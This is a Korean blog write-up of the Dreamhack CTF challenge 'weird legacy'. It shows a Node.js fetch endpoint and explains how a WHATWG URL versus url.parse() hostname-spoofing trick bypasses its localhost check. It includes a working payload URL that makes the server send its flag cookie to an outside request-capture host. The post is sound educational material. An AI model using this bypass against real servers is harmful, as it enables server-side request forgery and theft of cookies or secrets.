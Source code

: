 ```yaml
---
title: (48) Dreamhack weird legacy 문제 풀이
date: 2024-03-14 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
산타할아버지가 작년에 빌었던 선물을 이제서야 주셨는데 상태가 `legacy(유산)`이네요.

## 문제 풀이
먼저 사이트에 들어오면 이런 페이지가 있습니다.
![](https://kyuyeop.github.io/assets/img/post/48/1.png)

여기선 건질게 없으니 바로 코드를 확인해 봅시다.
```javascript
const express = require("express");
const node_fetch = require("node-fetch");
const app = express();
const PORT = 3000;
const FLAG = "DH{dummy}";

app.get("/", async (req, res) => {
  res.sendFile(__dirname + "/views/index.html");
});

app.get("/fetch", async (req, res) => {
  const url = req.query.url;

  if (!url) return res.send("?url=<br>ex) http://localhost:3000/");

  let host;
  try {
    const urlObject = new URL(url);
    host = urlObject.hostname;

    if (host !== "localhost" && !host.endsWith("localhost")) return res.send("rejected");
  } catch (error) {
    return res.send("Invalid Url");
  }

  try {
    let result = await node_fetch(url, {
      method: "GET",
      headers: { "Cookie": `FLAG=${FLAG}` },
    });
    const data = await result.text();
    res.send(data);
  } catch {
    return res.send("Request Failed");
  }
});

app.listen(PORT, () => {
  console.log(`Server Running on ${PORT}`);
});
```
역시 `/fetch`페이지가 추가로 존재했습니다. 페이지는 url을 받고 간단한 검증(`host !== "localhost" && !host.endsWith("localhost")`)을 거쳐서 `rejected`를 반환하거나 아래의 코드를 실행합니다.  
그런데 여기서도 딱히 문제가 있는걸 확인하긴 어렵습니다. 그래서 구글링을 좀 해봤는데 토스에서 [Node.js url.parse() 취약점 컨트리뷰션](https://toss.tech/article/nodejs-security-contribution)라는 글을 발견했습니다.  
내용을 간단히 요약하면 hostname을 구할 때 host에서 사용할 수 없는 문자 이전까지만 잘라서 반환하도록 구현되어 있는데 `WHATWG URL API`와 `url.parse()`간의 결과 차이를 이용해 hostname spoofing이 가능하다고 합니다.  

혹시 이건가? 싶어서 적용해 보았습니다. 방법도 간단히 `!`나 `*`을 이용해서 `localhost`를 이어 써주기만 하면 됩니다.  
문제에서 `host`를 검사할 때 `&&`을 쓰고 있어서 뭐라도 `false`로 만들어주면 우회가 가능합니다. 이번에도 드림핵 툴즈를 사용했습니다.
`/fetch?url=https://nqxuntb.request.dreamhack.games!localhost`(`*`를 사용해도 됨)로 접속을 해보니
![](https://kyuyeop.github.io/assets/img/post/48/2.png)

이렇게 아이피가 뜨고, 드림핵 툴즈 화면으로 돌아가 보면
![](https://kyuyeop.github.io/assets/img/post/48/3.png)

쿠키에 flag가 포함되어 요청이 들어옵니다.  
  
참고로 위 취약점은 최신 버전에서는 패치되었습니다.
{% endraw %}